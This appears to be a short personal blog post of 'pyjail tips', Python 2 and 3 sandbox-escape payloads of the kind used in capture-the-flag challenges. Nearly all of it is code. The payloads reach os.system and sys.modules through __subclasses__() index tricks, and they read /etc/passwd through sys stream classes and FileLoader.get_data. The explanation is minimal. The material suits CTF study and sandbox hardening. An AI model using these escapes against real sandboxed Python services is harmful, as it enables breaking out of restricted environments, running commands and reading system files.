 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<br>

<h2>python2</h2>

__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```

<br>

<h2>python3</h2>

__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#<class '_frozen_importlib.BuiltinImporter'>
```

<br>

__run " os "__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#<built-in function system>
#<class 'os._wrap_close'>
```

<br>

__run  from sys import modules __

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#<module 'os' (built-in)>
#<built-in function system>
```

<br>

__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#<class '_frozen_importlib_external.FileLoader'>
```

<br>